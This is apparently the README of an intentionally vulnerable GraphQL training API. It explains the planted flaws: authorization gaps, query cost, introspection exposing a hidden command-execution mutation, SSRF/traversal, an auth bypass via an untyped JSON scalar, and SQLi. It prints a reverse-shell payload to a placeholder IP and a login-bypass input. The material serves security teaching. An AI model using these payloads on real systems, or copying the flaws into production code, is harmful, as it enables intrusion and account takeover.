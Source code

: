 # GraphQL Demo API

A simple GraphQL API demonstrating several common vulnerabilities.

Authored by Aidan Noll, Carve Systems, LLC.

## Requirements

Node, NPM, and Python (for "SSRF")

## Setup

```
# Install all dependencies.
npm install
# Build the TypeScript source.
npm run tsc
# Create the database and seed it with random users and comments.
npm run sequelize db:migrate
npm run sequelize db:seed:all
```

## Running

To run the main API:

```
./run.sh
```

## Usage

The GraphQL API is available on port 3000. Visiting the homepage will take you to a GraphIQL IDE for exploration.

The API provides a simple social media/blog system. Users are able to make and view posts from other users, and they can be marked private so that they can't be seen by other users.

### Queries

me: returns information (id, firstName, lastName, list of posts) about the currently logged in user. On first access to the API, a user is assigned to your session.

allUsers: provides a list of all users. Has the same information as `me` -- but filters out private posts from other users.

post(id): Returns a specific post by ID. -- `(id, title, content, author)`.

search(query): Returns posts that contain the `query` string within their contents. E.g., search("asdf") would return any post containing "asdf".

getAsset(name): Retrieves an asset from the backend REST API and returns its contents as a string.


### Mutations

register(username, password, firstName, lastName): Registers a new account. Does not log into the new account.

login(username, password): Logs you into the account given by `username` if the password is correct.

createPost(title, content, public): Creates a new post.

superSecretPrivateMutation(command): ???

## Bugs

### Authorization

Authorization is handled by field resolvers. As a result, forgetting to check authorization in one location leads to authorization bugs.

In this API, private posts are directly accessible through the `post(id)` query.

```
query {
    post("1") {
        public
    }
}
```

### Expensive Queries

As API users are able to specify what they want, a massive, complicated-to-execute query can be sent: 

```
query {
  allUsers{
    posts
    {
      content
      author
      {
        posts
        {
          content
          author
          {
            firstName
            lastName
          }
        }
      }
    }
  }
}
```

### "Hidden" Mutations

Introspection reveals all. If introspection is enabled, any hidden/private queries and mutations can be found by sending an introspection query.

GraphIQL automatically does this, so hidden queries show up in it.

This API has a hidden mutation that exposes command execution.

Update with valid ID and port for fun.

```
mutation {
  superSecretPrivateMutation(command: "/bin/bash -i >& /dev/tcp/<IPADDRESS>/65000 0>&1") {
    stdout
    stderr
  }
}
```

### SSRF to Backend APIs

Many GraphQL APIs proxy some endpoints to external REST APIs. In many cases, they fail to validate the ID or other URL parameters, allowing for the endpoint reached to be modified.

`getAssets(name)` makes a request to a local HTTP server. However, as the field is not validated, directory traversal can be used to read files outside of the intended `assets` folder.

### Unsafe Custom Scalars

GraphQL allows for applications to define custom scalar types, which can be used by schemas as input types in addition to the built-in types. While GraphQL validates that the argument types are correct, custom scalars must be used and validated carefully. 

This application uses the `GraphQLJSON` type from the `graphql-type-json` for parameters to the `login` mutation, instead of having separate `string` parameters. Because the types of the contained objects are not validated, the username and password may be objects instead of strings.

As a result, passing the following as input to the login mutation will result in an authentication bypass.
```
{
    username: "Selmer66",
    password: {gt: ""}
}
```

### SQLi (bonus?)

I have seen SQL injection in GraphQL APIs before, so this type of vulnerability is never going away.

The `search(query)` uses the query to build a SQL `LIKE` clause, and it does so unsafely. 
